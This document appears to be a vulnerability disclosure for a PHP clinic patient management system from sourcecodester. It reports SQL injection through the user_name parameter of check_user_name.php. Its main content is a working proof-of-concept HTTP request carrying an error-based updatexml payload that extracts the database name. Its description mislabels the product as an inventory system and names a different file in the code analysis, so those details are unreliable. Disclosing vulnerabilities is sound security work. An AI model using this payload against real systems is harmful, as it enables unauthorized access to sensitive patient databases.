 ## Clinic's Patient Management System has SQL injection vulnerability

## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/ajax/check_user_name.php
## describe
An unrestricted SQL injection attack exists in an inventory management system. The parameters that can be controlled are as follows: user_name. This function executes the user_name parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
## code analysis
The user_name parameter in check_medicine_name.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

<img width="876" alt="image" src="https://github.com/user-attachments/assets/4ad173a1-37f9-4a81-a0a2-9e96b53d2d9d">

Injection via parameter user_name
POC
```
GET /pms/ajax/check_user_name.php?user_name=admin%27%20and(updatexml(1,concat(0x7e,(select+database())),1))--%201 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name: pms_db

<img width="1253" alt="image" src="https://github.com/user-attachments/assets/7f2d8de1-803d-4198-8438-dfda34cfad60">









